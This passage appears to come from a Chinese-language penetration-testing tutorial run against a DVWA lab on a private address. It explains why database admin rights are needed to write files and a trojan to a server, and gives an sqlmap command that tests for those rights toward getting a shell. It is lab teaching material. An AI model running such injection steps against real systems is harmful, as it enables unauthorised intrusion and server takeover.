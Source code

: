![image-20220323103854589](../../images/image-20220323103854589.png)

#### 8.1.3 利用sqlmap获得shell权限

Sqlmap证明存在注入并确保有dba权限。所谓DBA权限就是数据库的最大权限。在MariaDB数据库中一般为root。在sql注入中，只要注入权限为DBA用户所管理的库时，才能行使数据库的完整权限，执行文件写入等操作。前文手注写入木马也是基于这个前提。

```shell
sqlmap -u "http://192.168.10.112/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=vmhebkhe3pl91nmpij1kfnr7f7; security=low" --is-dba
```

![image-20220323111914629](../../images/image-20220323111914629.png)
